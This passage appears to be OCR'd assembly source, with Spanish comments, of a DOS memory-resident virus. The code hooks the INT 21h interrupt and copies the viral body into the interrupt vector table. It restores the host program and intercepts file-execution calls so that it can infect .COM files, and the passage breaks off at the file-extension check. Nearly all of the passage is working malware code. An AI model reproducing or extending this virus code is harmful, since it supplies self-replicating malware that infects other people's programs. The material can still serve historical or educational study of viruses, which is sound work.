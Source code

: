     int 21h                                          ; |_DOS API - Obtener vector en ES:BX

    mov [bp + vector_int21], bx                      ; guardar vector original de INT 21h  
    mov [bp + vector_int21 + 2], es

    mov ah, 25h                                      ; | AH = 25h  
    mov al, 21h                                      ; | AL = número de interrupción, 21h  
    xor bx, bx                                       ; |  
    mov ds, bx                                       ; | DS = 0  
    mov dx, V_OFFSET + offset handler_int21h         ; | DS:DX -> dirección del nuevo handler: handler_int21h  
    int 21h                                          ; |_DOS API - Cambiar vector

    push cs  
    pop ds                                           ; restaurar DS 

    lea si, [bp + body]                              ; origen: inicio del código viral en archivo  
    xor ax, ax  
    mov es, ax                                       ; ES = 0  
    mov di, 200h                                     ; destino: inicio del código viral en IVT  
    mov cx, VIRUS_SIZE                               ; tamaño del virus  
    rep movsb                                        ; copiar virus de origen a destino

run_host:     
    push ds  
    pop es                                           ; restaurar ES

    mov cx, 4  
    lea si, [bp + host_head]  
    mov di, 100h  
    rep movsb                                        ; restaurar cabezal original

    mov ax, 100h  
    jmp ax                                           ; saltar a CS:100 y ejecutar huésped 

handler_int21h:     
    cmp ax, 4B00h                                    ; llamada para ejecutar archivo:  
    je infect_file                                   ; infectar y delegar  
    jmp handler_old                                  ; en otro caso, delegar al handler original de INT 21h 

infect_file:     
    pushf                                            ; guardar estado CPU  
    push ax                                          ; guardar registros que serán utilizados  
    push bx  
    push cx  
    push dx  
    push si  
    push ds  
                                                     ; por la llamada AX=4B00h, DS:DX apunta al nombre del archivo  
    mov si, dx                                       ; verificar que sea extensión ".COM"  
      
loop_str:     
    lodsb  
    or al, al  
    jz check_fail  
    cmp al, '.'
    jne loop_str  
    lodsb  
    cmp al, 'C'
    jne check_fail  
    lodsb  
    cmp al, 'O'  
    jne check_fail  
    lodsb  
    cmp al, 'M' 
    je check_ok
